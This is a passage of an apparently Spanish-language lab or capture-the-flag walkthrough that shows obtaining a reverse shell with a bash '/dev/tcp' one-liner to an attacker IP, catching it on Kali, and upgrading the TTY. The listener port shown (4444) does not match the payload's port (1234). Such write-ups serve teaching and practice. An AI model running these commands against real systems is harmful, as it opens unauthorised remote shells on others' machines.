 
Teniendo una consola de comandos, ejecutamos el comando que nos dará la `reverse shell`
```
bash -i >& /dev/tcp/192.168.1.31/1234 0>&1
```

<p align="center">
    <img src="../img/Pasted_image_20241225222825.png" width="500">
</p>


Si vamos a nuestro KALI, en la terminal donde estábamos a la escucha, deberemos a ver recibido la `reverse shell`

<p align="center">
    <img src="../img/Pasted_image_20241225223002.png" width="500">
</p>


## TTY

Hacemos el tratamiento de la TTY para obtener una consola de comandos funcional
```
script /dev/null -c bash
```

<p align="center">
    <img src="../img/Pasted_image_20241225223110.png" width="500">
</p>

Presionamos **CTRL+Z** para suspender la shell
```
www-data@host_/$ ^Z
zsh: suspended nc -nlvp 4444
```
